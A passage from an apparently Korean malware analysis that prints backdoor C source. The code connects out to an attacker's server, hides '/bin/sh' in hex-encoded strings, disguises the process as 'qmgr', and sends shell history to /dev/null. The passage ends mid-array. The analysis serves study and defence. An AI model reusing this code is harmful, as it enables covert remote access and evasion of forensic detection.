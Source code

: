 많은 시스템이 인바운드 방화벽 규칙에 비해 아웃바운드 방화벽 규칙 설정을 제대로 해놓지 않아 방화벽을 우회할 수 있다  
<br>

---

```c
int try_link(in_addr_t ip, unsigned short port)
{
        struct sockaddr_in serv_addr;
        int sock;
 
        bzero(&serv_addr, sizeof(serv_addr));
 
        serv_addr.sin_addr.s_addr = ip;
 
        if ((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
                return -1;
        }
 
        serv_addr.sin_family = AF_INET;
        serv_addr.sin_port = port;
 
        if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(struct sockaddr)) == -1 ) {
                close(sock);
                return -1;
        }
        return sock;
}
```

`try_link()` 함수에서 공격자의 서버로 연결되는 소켓을 생성하고 연결한다  
<br>

---

```c
char argx[] = {
        0x71, 0x6d, 0x67, 0x72, 0x20, 0x2d, 0x6c, 0x20, 0x2d, 0x74,
        0x20, 0x66, 0x69, 0x66, 0x6f, 0x20, 0x2d, 0x75, 0x00}; // qmgr -l -t fifo -u
char *argvv[] = {argx, NULL, NULL};
#define MAXENV 256
#define ENVLEN 256
char *envp[MAXENV];
char sh[] = {0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00}; // /bin/sh
int ret;
char home[] = {0x48, 0x4f, 0x4d, 0x45, 0x3d, 0x2f, 0x74, 0x6d, 0x70, 0x00}; // HOME=/tmp
char ps[] = {
        0x50, 0x53, 0x31, 0x3d, 0x5b, 0x5c, 0x75, 0x40, 0x5c, 0x68, 0x20,
        0x5c, 0x57, 0x5d, 0x5c, 0x5c, 0x24, 0x20, 0x00}; // PS1=[\u@\h \W]\\$ 
char histfile[] = {
        0x48, 0x49, 0x53, 0x54, 0x46, 0x49, 0x4c, 0x45, 0x3d, 0x2f, 0x64,
        0x65, 0x76, 0x2f, 0x6e, 0x75, 0x6c, 0x6c, 0x00}; // HISTFILE=/dev/null
char mshist[] = {
        0x4d, 0x59, 0x53, 0x51, 0x4c, 0x5f, 0x48, 0x49, 0x53, 0x54, 0x46,
        0x49, 0x4c, 0x45, 0x3d, 0x2f, 0x64, 0x65, 0x76, 0x2f, 0x6e, 0x75,
        0x6c, 0x6c, 0x00}; // MYSQL_HISTFILE=/dev/null
char ipath[] = {
        0x50, 0x41, 0x54, 0x48, 0x3d, 0x2f, 0x62, 0x69, 0x6e,
        0x3a, 0x2f, 0x75, 0x73, 0x72, 0x2f, 0x6b, 0x65, 0x72, 0x62, 0x65,
        0x72, 0x6f, 0x73, 0x2f, 0x73, 0x62, 0x69, 0x6e, 0x3a, 0x2f, 0x75,
        0x73, 0x72, 0x2f, 0x6b, 0x65, 0x72, 0x62, 0x65, 0x72, 0x6f, 0x73,
        0x2f, 0x62, 0x69, 0x6e, 0x3a, 0x2f, 0x73, 0x62, 0x69, 0x6e, 0x3a,
        0x2f, 0x75, 0x73, 0x72, 0x2f, 0x62, 0x69, 0x6e, 0x3a, 0x2f, 0x75,
        0x73, 0x72, 0x2f, 0x73, 0x62, 0x69, 0x6e, 0x3a, 0x2f, 0x75, 0x73,
        0x72, 0x2f, 0x6c, 0x6f, 0x63, 0x61, 0x6c, 0x2f, 0x62, 0x69, 0x6e,
        0x3a, 0x2f, 0x75, 0x73, 0x72, 0x2f, 0x6c, 0x6f, 0x63, 0x61, 0x6c,
```